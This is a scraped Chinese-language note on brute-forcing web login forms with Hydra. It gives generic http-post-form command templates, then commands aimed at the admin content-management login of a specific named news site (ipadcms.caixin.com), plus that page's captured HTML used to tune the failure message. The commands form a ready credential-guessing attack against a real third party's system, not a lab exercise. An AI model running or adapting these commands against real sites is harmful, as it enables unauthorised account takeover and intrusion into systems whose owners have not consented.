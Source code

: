 1. [九头蛇 Hydra 在线密码破解(ftp,ssh,各种)](http://blog.csdn.net/dzp443366/article/details/52614327)
2. [中文用法](http://www.ha97.com/5186.html)



## Hydra 破解 Web 登录
```
# hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）
```
$ hydra http://ipadcms.caixin.com/  http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"   -L user_path.txt -P pwd_path.txt 

$ hydra http://ipadcms.caixin.com/ -s 80 http-post-form "username=^USER^&password=^PASS^&magazine_id=1:登录失败!" -L user_path.txt -P pwd_path.txt 


<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <link rel="stylesheet" type="text/css" href="http://ipadcms.caixin.com/css/cms.css">
        <title>移动平台内容管理系统</title>
        <style>
            body { background:#EEF0EF; font-size:12px; font-family:"Arial", "新宋体"; line-height:18px; margin:0px; padding:0px;}
            ul,li,ol,dd { margin:0px;padding:0px;list-style:none;}
            .errormsg{color: red;font-size: 14px;}
.incLogin { width:780px; height:450px; margin:auto; background:url(http://ipadcms.caixin.com/css/images/login.jpg) no-repeat; margin-top:30px;}
.incLogin .h1 { font-size:20px; font-family:"黑体"; line-height:30px; color:#666666; padding-bottom:20px;}
.incLogin .h2 { font-size:14px; font-weight:bold; color:#666666; }
.incLogin ul { width:270px; padding-top:100px; padding-left:300px; }
.incLogin ul li { line-height:30px; font-size:14px; padding-bottom:10px;}
.incLogin ul span { float:right;}
.incLogin .inputTxt { width:200px; border:1px solid #ccc; background:url(http://ipadcms.caixin.com/css/images/txtbg.jpg) repeat-x; line-height:24px; height:24px;}
.incLogin .inputButGo { margin-left:65px; margin-right:10px;}
.incLogin .inputButGo,.incLogin .inputButRd { padding:2px 10px;}

        </style>
		<script language="javascript">
		<!--
			try{
				if(window != top){
					top.location.href = window.href;
				}
			}catch(error){
			}
		//-->
		</script>
    </head>
